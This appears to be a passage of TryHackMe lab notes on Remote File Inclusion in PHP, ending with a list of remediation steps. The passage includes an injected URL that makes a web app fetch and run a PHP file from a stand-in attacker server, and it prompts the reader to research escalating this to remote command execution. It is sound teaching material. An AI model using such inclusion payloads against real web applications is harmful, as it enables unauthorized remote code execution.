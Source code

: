 ### RFI steps
<div align="center"><br><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png"></div> 

The figure above is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains a printing message Hello THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the `Hello THM` message.

Visit the following lab URL: `http://10.10.221.22/playground.php` to try out an RFI attack.
<div>
<br>
<br>
</div>

### Questions

##### We showed how to include PHP pages via RFI. Do research on how to get remote command execution (RCE), and answer the question in the challenge section.
No answer needed
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>

<div style="page-break-after: always;"></div>

## 7. Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as `allow_url_fopen` on and `allow_url_include`.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>
